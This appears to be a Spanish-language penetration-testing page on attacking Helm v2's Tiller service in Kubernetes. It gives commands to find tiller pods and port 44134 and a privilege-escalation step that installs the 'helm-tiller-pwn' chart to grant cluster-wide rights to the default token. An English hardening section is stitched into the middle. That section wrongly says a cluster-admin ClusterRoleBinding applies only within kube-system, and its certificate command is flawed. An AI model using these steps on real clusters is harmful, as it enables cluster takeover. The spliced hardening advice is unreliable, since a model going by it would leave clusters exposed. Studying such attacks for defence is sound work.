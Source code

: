# Información Básica

Helm es el **gestor de paquetes** para Kubernetes. Permite empaquetar archivos YAML y distribuirlos en repositorios públicos y privados. Estos paquetes se llaman **Helm Charts**. **Tiller** es el **servicio** que se ejecuta por defecto en el puerto 44134 ofreciendo el servicio.

**Puerto por defecto:** 44134
```
PORT      STATE SERVICE VERSION
44134/tcp open  unknown
```
# Enumeración

Si puedes **enumerar pods y/o servicios** de diferentes espacios de nombres, enuméralos y busca aquellos que tengan **"tiller" en su nombre**:
```bash
kubectl get pods | grep -i "tiller"
kubectl get services | grep -i "tiller"
kubectl get pods -n kube-system | grep -i "tiller"
kubectl get services -n kube-system | grep -i "tiller"
kubectl get pods -n <namespace> | grep -i "tiller"
kubectl get services -n <namespace> | grep -i "tiller"
```
## Pentesting Tiller (Helm)

### Introduction

Helm is a package manager for Kubernetes that allows developers and operators to more easily package, configure, and deploy applications and services onto Kubernetes clusters. Helm uses a client-server architecture, where the client is called `helm` and the server is called `tiller`. Tiller runs inside your Kubernetes cluster, and manages releases (installations) of your Helm packages.

### Tiller Security

Tiller is a privileged component of the Kubernetes cluster, with full access to the Kubernetes API and the ability to create, modify, and delete resources in any namespace. This means that if an attacker gains access to Tiller, they can potentially take control of the entire cluster.

By default, Tiller is deployed with full administrative privileges, which makes it a high-value target for attackers. However, there are several steps that can be taken to secure Tiller and reduce the risk of compromise.

### Securing Tiller

#### Disable Tiller

The simplest way to secure Tiller is to disable it entirely. This can be done by running the following command:

```bash
$ helm init --client-only
```

This will initialize Helm without installing Tiller. However, this means that you will not be able to manage releases using Helm, so it may not be a viable option for all use cases.

#### Restrict Tiller's Permissions

If you need to use Tiller, it is recommended that you restrict its permissions as much as possible. This can be done by creating a dedicated service account for Tiller, and assigning it the minimum set of permissions required for your use case.

For example, you can create a service account with the following command:

```bash
$ kubectl create serviceaccount tiller --namespace kube-system
```

And then grant it the `cluster-admin` role with the following command:

```bash
$ kubectl create clusterrolebinding tiller-cluster-rule --clusterrole=cluster-admin --serviceaccount=kube-system:tiller
```

This will give Tiller full administrative privileges, but only within the `kube-system` namespace.

#### Use TLS Encryption

By default, Tiller communicates with the Helm client over an unencrypted connection. This means that any data sent between the client and server can be intercepted and read by an attacker.

To prevent this, it is recommended that you enable TLS encryption for Tiller. This can be done by generating a TLS certificate and key, and configuring Tiller to use them.

For example, you can generate a self-signed TLS certificate and key with the following command:

```bash
$ openssl req -keyout tiller.key -out tiller.crt -newkey rsa:2048 -nodes -subj '/CN=tiller'
```

And then configure Tiller to use them with the following command:

```bash
$ helm init --tiller-tls --tiller-tls-cert tiller.crt --tiller-tls-key tiller.key --tiller-tls-verify
```

This will enable TLS encryption for Tiller, and require the Helm client to verify the server's TLS certificate before connecting.

### Conclusion

Tiller is a critical component of the Helm package manager, but it also represents a potential security risk if not properly secured. By following the best practices outlined in this guide, you can help to reduce the risk of compromise and ensure the security of your Kubernetes cluster.
```bash
kubectl get pods -n kube-system
NAME                                       READY   STATUS             RESTARTS   AGE
kube-scheduler-controlplane                1/1     Running            0          35m
tiller-deploy-56b574c76d-l265z             1/1     Running            0          35m

kubectl get services -n kube-system
NAME            TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
kube-dns        ClusterIP   10.96.0.10     <none>        53/UDP,53/TCP,9153/TCP   35m
tiller-deploy   ClusterIP   10.98.57.159   <none>        44134/TCP                35m
```
También podrías intentar encontrar este servicio ejecutándose verificando el puerto 44134:
```bash
sudo nmap -sS -p 44134 <IP>
```
Una vez que lo hayas descubierto, puedes comunicarte con él descargando la aplicación cliente helm. Puedes usar herramientas como `homebrew`, o mirar [**la página oficial de lanzamientos**](https://github.com/helm/helm/releases)**.** Para más detalles, u otras opciones, consulta [la guía de instalación](https://v2.helm.sh/docs/using\_helm/#installing-helm).

Luego, puedes **enumerar el servicio**:
```
helm --host tiller-deploy.kube-system:44134 version
```
## Escalada de privilegios

Por defecto, **Helm2** se instaló en el **namespace kube-system** con **altos privilegios**, por lo que si encuentras el servicio y tienes acceso a él, esto podría permitirte **escalar privilegios**.

Todo lo que necesitas hacer es instalar un paquete como este: [**https://github.com/Ruil1n/helm-tiller-pwn**](https://github.com/Ruil1n/helm-tiller-pwn) que dará acceso al **token de servicio predeterminado a todo en el clúster completo**.
```
git clone https://github.com/Ruil1n/helm-tiller-pwn
helm --host tiller-deploy.kube-system:44134 install --name pwnchart helm-tiller-pwn
/pwnchart
```
En [http://rui0.cn/archives/1573](http://rui0.cn/archives/1573) se encuentra la **explicación del ataque**, pero básicamente, si se lee los archivos [**clusterrole.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrole.yaml) y [**clusterrolebinding.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrolebinding.yaml) dentro de _helm-tiller-pwn/pwnchart/templates/_ se puede ver cómo **se están otorgando todos los privilegios al token predeterminado**.
